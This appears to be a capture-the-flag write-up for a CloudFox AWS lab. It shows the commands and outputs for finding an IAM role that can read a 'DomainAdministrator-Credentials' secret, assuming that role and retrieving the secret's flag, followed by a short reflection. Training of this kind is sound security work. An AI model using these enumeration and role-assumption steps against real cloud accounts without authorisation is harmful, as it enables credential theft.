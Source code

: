 ## Solution  

### Step 1: Identify Who Has Access to the Secret  
First, I needed to find out who had access to the secret resource `"arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX"`. I ran the following command using Cloudfox to list the permissions for the secret:

```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

The output showed that the "Alexander-Arnold" role had permission to view the secret:

```
│ Role │ Alexander-Arnold │ Managed │ corporate-domain-admin-password-policy │ Allow │ secretsmanager:GetSecretValue │ arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X │ No │
```

### Step 2: Assume the Role  
Next, I assumed the "Alexander-Arnold" role to gain the necessary access. I added the profile for this role in the AWS configuration file (`~/.aws/config`) as follows:

```ini
[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::047719646211:role/Alexander-Arnold
source_profile = cloudfoxable
```

I then verified that I could successfully assume the role by running:

```bash
aws --profile alexander-arnold sts get-caller-identity
```

The output confirmed that the role assumption was successful:

```json
{
    "UserId": "AROAQWHCQAQBRYHVXNLAR:botocore-session-1743902759",
    "Account": "047719646211",
    "Arn": "arn:aws:sts::047719646211:assumed-role/Alexander-Arnold/botocore-session-1743902759"
}
```

### Step 3: Retrieve the Secret Value  
Finally, I used the following command to retrieve the secret value:

```bash
aws --profile alexander-arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X
```

The output contained the flag:

```json
{
    "ARN": "arn:aws:secretsmanager:us-west-2:047719646211:secret:DomainAdministrator-Credentials-9TWS9X",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "6F50E10B-9EA3-427A-AAD8-DEB9D68C5EF7",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-02-12T09:26:46.917000-05:00"
}
```

---

## Reflection  

* **What was your approach?**  
  My approach was to first identify the role that had access to the secret, assume that role, and then use the correct AWS CLI commands to retrieve the secret.

* **What was the biggest challenge?**  
  The biggest challenge was ensuring that I correctly assumed the right role with the appropriate permissions to access the secret. This required careful verification of the permissions and configuration.

* **How did you overcome the challenges?**  
  I overcame the challenges by double-checking the permissions output and carefully configuring the AWS CLI profile for the role I needed to assume.

* **What led to the breakthrough?**  
  The breakthrough came when I pinpointed the exact role with access to the secret and successfully assumed it to retrieve the flag.

* **On the blue side, how can the learning be used in future?**  
  This learning can be applied in future scenarios when auditing permissions, assuming roles, and securely accessing AWS resources. Understanding how to configure and use IAM roles and secrets management effectively is crucial for maintaining secure cloud environments.